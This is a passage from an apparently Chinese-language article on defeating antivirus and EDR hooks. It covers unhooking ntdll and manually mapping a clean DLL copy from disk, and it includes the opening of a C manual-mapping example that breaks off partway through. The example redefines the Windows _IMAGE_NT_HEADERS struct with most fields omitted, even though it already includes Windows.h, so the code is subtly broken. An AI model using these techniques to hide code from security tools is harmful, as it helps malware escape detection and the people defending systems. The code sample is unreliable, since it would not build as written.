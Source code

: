         CloseHandle(process);  
        CloseHandle(ntdllFile);  
        CloseHandle(ntdllMapping);  
        FreeLibrary(ntdllModule);  
      
        return 0;  
    }  
    

  

 **手动映射 DLL**

我们可以将干净的ntdll副本加载到进程的内存中并使用它而不是原始内存中的，从磁盘读取 ntdll 的干净副本来使我们能够unhook原始
ntdll。LoadLibrary()和LdrLoadDll()不允许系统两次加载同一个DLL，所以我们必须手动加载它。手动映射 DLL
的代码可能会很广泛，并且还容易出现错误或检测。

DLL 通常还执行对其他 DLL 的调用，因此我们要么被限制为只能使用手动加载的 ntdll 中的函数，要么加载我们需要的每个 DLL
的第二个副本并修补它们以仅使用其他手动加载的 DLL，这可能会变得非常混乱。如果防病毒软件进行内存扫描并发现每个 DLL
的多个副本加载到内存中，那么也很有可能被检测到。

手动映射dll代码示例：

    
    
    #include <Windows.h>   
    #include <stdio.h>   
       
    // 定义 PE 头结构   
    typedef struct _IMAGE_NT_HEADERS {   
        DWORD Signature;   
        // 其他字段省略...   
    } IMAGE_NT_HEADERS, *PIMAGE_NT_HEADERS;   
       
    // 函数指针类型   
    typedef FARPROC(WINAPI* GetProcAddress_t)(_In_ HMODULE hModule, _In_ LPCSTR lpProcName);   
    typedef HMODULE(WINAPI* LoadLibraryA_t)(_In_ LPCSTR lpLibFileName);   
    typedef LPVOID(WINAPI* VirtualAlloc_t)(_In_opt_ LPVOID lpAddress, _In_ SIZE_T dwSize, _In_ DWORD flAllocationType, _In_ DWORD flProtect);   
       
    // 加载 DLL 到内存的函数   
    HMODULE ManualMapDll(const char* dllPath) {   
        HANDLE hFile = CreateFileA(dllPath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);   
        if (hFile == INVALID_HANDLE_VALUE) {   
            printf("Failed to open the file.\n");   
            return NULL;   
        }   
       
        DWORD dwFileSize = GetFileSize(hFile, NULL);   
        if (dwFileSize == INVALID_FILE_SIZE || dwFileSize == 0) {   
            CloseHandle(hFile);   
            printf("Failed to get the file size.\n");   
            return NULL;   
        }   
       
        LPVOID pFileData = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);   
        if (pFileData == NULL) {   
            CloseHandle(hFile);   
            printf("Failed to allocate memory.\n");   
            return NULL;   
        }   
       